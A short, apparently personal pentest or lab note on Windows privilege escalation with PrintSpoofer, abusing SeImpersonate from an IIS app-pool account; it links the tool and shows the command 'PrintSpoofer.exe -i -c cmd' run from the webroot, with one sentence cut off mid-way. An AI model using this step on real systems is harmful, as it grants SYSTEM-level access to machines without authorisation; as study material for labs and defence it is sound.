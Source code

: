 ### Printerspoofer
[Printspoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)  
exploits a vulnerability in Windows where certain service accounts are required to run with elevated privileges utilizing the * SeImpersonate * privilege. We see that we are the iis apppool\defaultapppool service account user, which
Download 
https://github.com/dievus/printspoofer

Go to directory that prointspoofer is uploaded to (C:\inetpub\wwwroot\<share>)
```
cd C:\inetpub\wwwroot\
PrintSpoofer.exe -i -c cmd
```